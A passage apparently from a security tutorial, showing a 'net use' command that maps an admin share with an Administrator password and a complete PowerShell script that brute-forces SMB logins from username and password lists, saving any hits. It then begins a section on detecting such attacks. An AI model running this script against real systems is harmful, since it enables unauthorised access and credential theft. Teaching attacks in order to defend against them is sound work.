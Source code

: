 ```powershell
net use \\192.168.1.8\C$ /user:Administrator R$$tme1234

The command completed successfully.
```

### **🚀 PowerShell SMB Bruteforce Script**

```
# PowerShell SMB Bruteforce Script using "net use"
# Define target SMB share
$target = "\\192.168.1.8\C$"

# Load username and password lists
$users = Get-Content "users.txt"
$passwords = Get-Content "passwords.txt"

# Loop through each username-password combination
foreach ($user in $users) {
    foreach ($password in $passwords) {
        Write-Host "[*] Trying: $user / $password" -ForegroundColor Yellow

        # Attempt authentication using "net use"
        $output = cmd.exe /c "net use $target /user:$user $password" 2>&1

        # Check if authentication was successful
        if ($output -match "The command completed successfully") {
            Write-Host "[+] Valid Credentials Found: $user / $password" -ForegroundColor Green

            # Save credentials to file (Escaping the ":" issue)
            "$user`:$password" | Out-File -Append valid_creds.txt
            exit
        } elseif ($output -match "Logon failure") {
            Write-Host "[-] Invalid Credentials: $user / $password" -ForegroundColor Red
        } elseif ($output -match "Multiple connections") {
            Write-Host "[!] Connection already exists. Disconnecting..." -ForegroundColor Cyan
            cmd.exe /c "net use $target /delete /yes"
        }
    }
}
Write-Host "[-] Bruteforce completed. No valid credentials found." -ForegroundColor Red

```

### **2.3🛡️ Defending Against Bruteforce SMB**

🚨 **Bruteforce attacks are noisy** and leave detectable footprints. Below are **overlooked defenses** and **threat-hunting techniques** to catch and stop SMB bruteforce attempts.

### **🛡️ 1️⃣ Detecting SMB Bruteforce Attempts**

Bruteforce attacks generate **multiple failed login attempts** within a short time, which trigger Windows Event IDs.
